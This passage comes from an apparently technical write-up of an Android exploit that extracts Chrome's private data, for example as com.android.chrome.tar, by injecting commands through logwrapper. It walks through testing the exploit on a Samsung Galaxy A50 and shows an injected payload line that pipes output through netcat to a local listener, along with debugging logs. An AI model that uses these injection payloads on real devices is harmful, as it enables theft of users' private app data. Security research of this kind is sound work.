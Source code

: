 ```bash
-> Set hidden_api_blacklist_exemptions to null to avoid problems when rebooting the phone
-> Delete payload from phone.
-> Done extracting. Check com.android.chrome.tar

$ ls -al
total 6964
drwxr-xr-x 3 xxx xxx  4096 abr 22 16:04 .
drwxr-xr-x 5 xxx xxx  4096 abr 19 13:25 ..
-rw-r--r-- 1 xxx xxx 6923776 abr 22 16:04 com.android.chrome.tar
…
```
&nbsp;
We have achieved **universal exploitation**, and that makes us very happy :-).

It only remains to test it on real hardware... while someone brings the champagne to celebrate.


## -[ 0x09 The paranoid android ]-

On hand we have a **Samsung Galaxy A50** with Android 11 and *patch* level of **January 1, 2022** (factory restored). We plugged in the device and tried the exploit to try to extract the Chrome folder, but... **doesn't work**.

The first thing we notice is that the exploit “doesn't terminate”, which probably means that the listening process doesn't terminate either; everything points to a problem with the *netcat* connection.

Let's go back to basics: use `logwrapper` to check the bug. We verify that the `id` command is executed with the Chrome user (UID = 10236):

```bash
130|a50:/ $ logcat | grep zYg0te
04-25 12:05:46.136 29364 29364 I echo : zYg0te uid=10236(u0_a236) gid=10236(u0_a236) groups=10236(u0_a236),1065(reserved_disk),3009(readproc) context=u:r:untrusted_app:s0:c236,c256,c512,c768
```
&nbsp;
Now let's check if *netcat* throws any errors. We use `logwrapper` again, redirecting `stderr` to `stdout` so that the message is logged in `logcat`. We don't raise another instance of *netcat*; we just look for the error:

```bash
/system/bin/logwrapper echo zYg0te $(nc 127.0.0.1 31337 2>&1) ; #
```
&nbsp;
In `logcat` shows:

```bash
04-25 12:09:28.165 30529 30529 I echo : zYg0te nc: socket 1 6: Permission denied
```
&nbsp;
Permission denied? Chrome, by default, has the necessary network permissions and in the emulator we never had this problem with any application.

Android manages permissions at several levels; the permission for network connections (`android.permission.INTERNET`) is enabled by assigning the process the group 3003 (*inet*) at the kernel level. The same mechanism is used, for example, for read or write permissions on the *sdcard*.
